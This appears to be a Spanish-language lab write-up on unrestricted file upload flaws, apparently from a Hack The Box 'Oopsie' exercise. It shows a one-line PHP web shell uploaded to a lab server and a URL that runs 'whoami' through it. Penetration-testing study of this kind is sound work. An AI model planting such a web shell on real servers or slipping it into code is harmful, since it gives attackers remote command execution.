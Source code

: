 Es una vulnerabilidad que permite a un atacante **subir archivos maliciosos** a un servidor sin restricciones adecuadas.  Puede usarse para ejecutar comandos, obtener shells o comprometer completamente el sistema.  
Sucede cuando la aplicación no valida correctamente el **tipo, nombre o contenido** del archivo subido.


# Ejemplo

Desde la parte de uploads, vamos a cargar un [[archivo php inyección comandos]]
![[Oopsie12.png]]


`test.php`
```
<?php system($_GET["cmd"]); ?>
```

Lo subimos con este contenido, en uno de nuestros primeros intentos de enumerar, habiamos visto que existe el directorio uploads
![[Oopsie11.png]]

Entonces desde el directorio uploads vamos a intentar inyectar comandos con la utilidad que subimos
http://10.129.207.226/uploads/test.php?cmd=whoami
![[Oopsie13.png]]
Nos responde www-data asi que funciona correctamente